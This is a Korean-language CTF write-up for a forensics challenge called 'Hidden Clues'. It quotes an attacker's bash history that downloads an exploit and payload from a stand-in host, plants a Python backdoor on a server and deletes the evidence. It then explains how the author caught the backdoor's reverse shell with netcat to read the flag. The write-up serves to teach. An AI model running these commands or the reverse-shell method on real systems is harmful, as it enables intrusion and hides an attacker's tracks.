





# Hidden Clues

**Category:** Defense

**Points:** 50

**Author:** matta

**Description:** 

> Police and system operators of A-Server, attacked by hackers, traced the hacker's penetration route
> and succeeded in capturing the hacker's account on the attack server.
> The security vulnerabilities used in the attack is mitigated, 
> but how they're used in the exploitation is still under investigation.
> What can you find from the clues left in the hacker's account?
> 
> Download: [Hidden_Clues.zip](resource/Hidden_Clues.zip)
> 
> And, if needed, you can use a restricted shell server on **nc shellserver.sstf.site 1337**
> 
> References:
>  1) [Useful video about bash](https://www.youtube.com/watch?v=t5ZTOQg4rJs) (sorry for adv.)
>  2) [Reverse Shell](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

## Write-up

주어진 파일의 압축을 풀고 뭐가 들었는지 살펴보면, 대부분 사용자 계정에 기본으로 존재하는 directory이고 파일은 달랑 세개 밖에 없다.



이 중 .bashrc는 사용자 환경 설정 스크립트이고, .bash_history는 사용자가 입력한 command들을 기록하고 있는 파일이다.

공격자가 뭘 했는지 궁금하니, 일단 .bash_history의 내용을 살펴보자.

```
whoami
id
pwd
wget http://hackerserver.doesnt.exist/exploit_x64
chmod +x exploit_x64
wget http://hackerserver.doesnt.exist/payload
decrypt payload > prs.py
./exploit_x64 --server hiddenclues.sstf.site --port 13579 --upload "prs.py"
./exploit_x64 --server hiddenclues.sstf.site --port 13579 --run "python prs.py" --remote_port 24680
rm -rf exploit_x64 prs.py
exit
```

인터넷에서 exploit_64라는 파일을 다운로드하고, (이름으로 보아 아마 x64에서 돌아가는 어떤 서비스에 대한 공격 코드일 것 같다.) payload 또한 다운로드 하였다.

다음으로는 payload를 prs.py로 복호화한 후, exploit을 이용해서 취약한 서비스가 돌고 있는 서버에 업로드 하고 24680 포트에서 동작하도록하여 서버에 backdoor를 만들어 둔 것으로 보인다.

backdoor라면 접속이 가능할 것이다. 해당 서버의 24680 포트에 접속해보자.

**nc hiddenclues.sstf.site 24680** 명령으로 접속을 시도해보면 password를 묻는데, 이 password를 알기 위해서는 prs.py를 복구해야만 할 것 같다.

history를 보면 공격 후에 prs.py는 삭제하였지만 실수인지 payload는 삭제되지 않은 채로 남아있다. 그러나 payload의 내용을 살펴보려고 해도 의미를 알 수 없는 깨진 것 같은 내용만 출력된다.

decrypt라는 명령에 대한 정보는 아직 없으니, 남아있는 .bashrc 파일도 한번 살펴보자.

```
alias decrypt='base64 -i -d'
```

.bashrc 파일의 alias 중에 decrypt가 있었다. 이를 이용해서 공격자가 했던대로 payload를 복호화 해보자.



공격자가 서버에 심어둔 backdoor의 내용을 확인할 수 있고, 여기에서 password도 알 수 있다.

코드를 살펴보면 password를 확인한 후에 remote server와 remote port를 입력받아 여기에 연결을 생성하고, stdin/stdout/stderr를 바인딩 한 후 "/bin/sh"을 실행하도록 되어있다.

무슨 의미인지 잘 모르겠으니, 힌트로 주어진 reverse shell의 개념에 대해서 살펴보자.

저 코드가 실행되면, 서버로부터 연결을 받아 서버에서 "/bin/sh"을 실행하는 것처럼 명령을 실행할 수 있다고 한다.

다만, 서버쪽에서 연결을 만드려면 이쪽에서 public address에 socket을 만들고 접속을 기다리고 있어야 한다.

public address를 만드려면 게이트웨이에서 port forwarding을 설정하거나 AWS 등을 이용하여 public IP를 가진 machine을 셋업해야 하는데, 다행히 사용할 수 있는 shell server가 주어져 있다. 접속해보면 진짜 nc밖에 쓸 수 있는게 없다.

~~운영진의 따뜻하고 세심한 배려를 느낄 수 있는 부분인데, 아쉽게도 활용한 사람은 많지 않은 것 같다. ㅜㅠ~~

서버의 연결을 받기 위해 shell server에서 아무 포트나 열고 대기를 시작하자.  
(나는 13131을 열었다. 해당 포트를 열 수 없다면 다른 사람이 이미 열었다는 뜻이니 다른 포트를 이용하자.)



그런 다음 backdoor에 접속하여 prs.py에 써있던 암호를 넣고, shellserver의 url과 열어둔 포트를 입력하면



아까 열어둔 shell server에서 서버의 /bin/sh에 대한 연결을 얻을 수 있고, flag 파일의 내용을 확인할 수 있다.


